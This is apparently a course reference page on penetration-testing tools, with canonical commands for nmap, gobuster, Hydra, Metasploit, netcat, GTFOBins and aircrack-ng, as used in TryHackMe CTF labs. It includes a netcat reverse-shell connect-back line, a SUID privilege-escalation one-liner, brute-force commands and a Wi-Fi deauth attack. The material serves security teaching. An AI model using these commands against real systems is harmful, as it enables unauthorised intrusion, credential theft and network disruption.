

# Tools Reference

Every tool exercised in the course, with canonical invocations and the lab context in which it was used.

## Tool Selection Decision Tree



---

## Platform

### Kali Linux

Debian-based penetration testing distribution maintained by Offensive Security. Used as the attacker VM throughout the course. Pre-built images distributed via Kali's official download page and via TryHackMe.

- **Official downloads:** <https://www.kali.org/get-kali/>
- **TryHackMe Kali image:** pre-configured with the course's standard wordlists and tools
- **Update cadence:** `sudo apt update && sudo apt full-upgrade -y`

### VirtualBox

Free hypervisor used for host-level virtualization. Alternative supported: VMware ESXi.

### TryHackMe

Lab platform hosting the course CTFs. Free tier was sufficient; the paid "Attack Box" (in-browser Kali) was optional.

- **Connection:** OpenVPN profile downloaded from room pages → `sudo openvpn username.ovpn`
- **Rooms used this course:** Pickle Rick, Mr. Robot CTF, Boiler CTF, and ~8 supporting walkthrough rooms

---

## Reconnaissance & Enumeration

### Nmap

The indispensable port scanner. Used in every lab and both CTFs.

**Canonical invocations:**

```bash
# Full-port service/version scan with default scripts (CTF standard)
sudo nmap -sC -sV -p- -oN nmap_full.txt <target>

# Aggressive scan with OS detection
sudo nmap -A -T4 -p- <target>

# Fast-timed scan with output to file
nmap -A -T4 -p- <target> -v -oN results

# UDP scan (slow!)
sudo nmap -sU --top-ports 100 <target>

# Live-host discovery on a subnet
sudo nmap -sn 10.10.0.0/24
```

**Flags explained:**

- `-sS` — SYN stealth scan (default when root)
- `-sV` — service/version detection
- `-sC` — run default NSE scripts
- `-A` — aggressive: `-sV -sC -O --traceroute`
- `-T4` — timing template (aggressive timing; `-T5` = insane)
- `-p-` — scan all 65,535 ports
- `-oN/-oA/-oX` — output to normal/all-formats/XML

### Gobuster

Directory and virtual-host brute-forcer. Fast and noisy; good first-pass web enumeration.

**Canonical invocations:**

```bash
# Directory enumeration with common wordlist
gobuster dir -u http://<target> -w /usr/share/dirb/wordlists/common.txt

# Multi-extension scan
gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt

# Virtual host brute-force
gobuster vhost -u http://<target> -w /usr/share/wordlists/dns/subdomains-top1million-5000.txt
```

**Course usage:**

- Pickle Rick: `gobuster dir -u http://10.10.13.213 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt` → `/portal.php` discovered
- Boiler CTF: `gobuster dir -u http://<target>/joomla/ -w /usr/share/dirb/wordlists/common.txt` → `/joomla/_test` discovered

### Nikto

Web server vulnerability scanner. Detects outdated software, default files, insecure configurations.

```bash
nikto -host http://<target>
nikto -host http://<target> -port 8080 -Tuning 9
```

### curl

HTTP Swiss Army knife. Used for manual inspection, `robots.txt`, headers, and raw response bodies.

```bash
# Fetch robots.txt
curl http://<target>/robots.txt

# Show response headers only
curl -I http://<target>

# Send custom User-Agent
curl -A "Mozilla/5.0" http://<target>

# POST form data
curl -X POST -d "user=admin&pass=admin" http://<target>/login
```

### FTP client

Anonymous FTP login was a repeated theme; on Boiler CTF an anonymous login surfaced a ROT13-encoded `.info.txt`.

```bash
ftp <target>
# Name: anonymous
# Password: (blank)
ls -la
get .info.txt
```

---

## Vulnerability Assessment

### OpenVAS / Greenbone

Open-source vulnerability scanner. Week 5 lab focus.

- **Installation:** `sudo apt install openvas` (substantial setup time; ~20GB feed sync)
- **Web UI:** `https://localhost:9392/`
- **Default workflow:** Configure → Targets → Tasks → Run → Review Reports

### JoomScan

OWASP's Joomla vulnerability scanner. Used on Boiler CTF against Joomla 3.9.10.

```bash
# Install
sudo apt install joomscan

# Run
joomscan --url http://<target>/joomla/
```

**What it finds:**

- Joomla version detection
- Core vulnerability checks
- Admin / components / modules / templates paths
- Configuration / status file exposure

### WPScan

WordPress vulnerability scanner. Applicable to the Mr. Robot CTF WordPress target.

```bash
wpscan --url http://<target> --enumerate u,p,t
wpscan --url http://<target> -U users.txt -P rockyou.txt
```

### searchsploit / Exploit-DB

Offline mirror of Exploit-DB's published exploit archive.

```bash
searchsploit joomla 3.9
searchsploit sar2html
```

---

## Exploitation

### Metasploit Framework

Modular exploitation framework. Not primary for course CTFs (which emphasized manual methods) but standard in the industry.

```bash
msfconsole
use exploit/unix/webapp/joomla_comfields_sqli_rce
set RHOSTS <target>
set LHOST <attacker>
exploit
```

### Hydra

Network login brute-forcer. Candidates: SSH, FTP, HTTP forms, RDP, MySQL, PostgreSQL, SMB.

```bash
# SSH brute-force
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://<target>

# HTTP POST form
hydra -l admin -P passwords.txt <target> http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid"
```

### John the Ripper

Password hash cracker.

```bash
# Auto-detect hash format and crack with default wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Show cracked passwords
john --show hashes.txt
```

### netcat (nc)

TCP/UDP connection tool; reverse-shell listener; port scanner; banner grabber.

```bash
# Listen for reverse shell
nc -lvnp 4444

# Connect back from victim
nc <attacker> 4444 -e /bin/bash
```

---

## Post-Exploitation & Privilege Escalation

### GTFOBins

Curated list of Unix binaries that can be abused for privilege escalation or sandbox escape when installed with SUID or misconfigured sudo rules.

- **Site:** <https://gtfobins.github.io/>

**Example from Boiler CTF:**

```bash
# SUID find → root shell
/usr/bin/find . -exec /bin/sh -p \; -quit
```

### LinPEAS / WinPEAS

Automated enumeration scripts for Linux and Windows privilege escalation surface.

```bash
# Transfer and run LinPEAS
curl -Lo linpeas.sh https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Standard Linux shell primitives (used in Pickle Rick + Boiler)

```bash
id                                    # Current user/UID context
sudo -l                               # Commands runnable as other users
find / -perm -4000 2>/dev/null        # SUID binaries
find / -writable -type d 2>/dev/null  # World-writable dirs
cat /etc/crontab                      # Scheduled jobs
ls -la /home                          # Other users
ls -la /var/log                       # Log file access
```

---

## Wireless & Physical

### Wi-Fi Pineapple

Hak5 hardware rogue-AP device. Demonstrated in-class as the canonical example of captive-portal and evil-twin attacks.

### Flipper Zero

Multi-tool embedded device handling sub-gigahertz radio, RFID/NFC cloning, infrared, 1-Wire, and GPIO. Used for in-class wireless/physical demonstrations.

### aircrack-ng suite (referenced in Week 11)

```bash
airmon-ng start wlan0           # Put interface into monitor mode
airodump-ng wlan0mon            # Capture wireless traffic
aireplay-ng -0 5 -a <BSSID> wlan0mon   # Deauth attack
aircrack-ng -w wordlist.txt capture.cap  # Offline WPA handshake crack
```

---

## Helpers & Quality of Life

| Tool | Purpose |
|---|---|
| `tmux` | Persistent terminal sessions survive VPN drops |
| `asciinema` | Record terminal sessions for reports |
| `keepnote` / `CherryTree` / `Obsidian` | Note-taking for engagements |
| `flameshot` / Windows Snipping Tool | Screenshot capture |
| `curl` + `jq` | Parse JSON APIs |
| `grep -r -n --include="*.conf"` | Config hunting in compromised boxes |

---

_Previous page:_ [Legal & Ethics](legal-and-ethics.md) · _Next page:_ [OWASP Top 10](owasp-top-10.md)
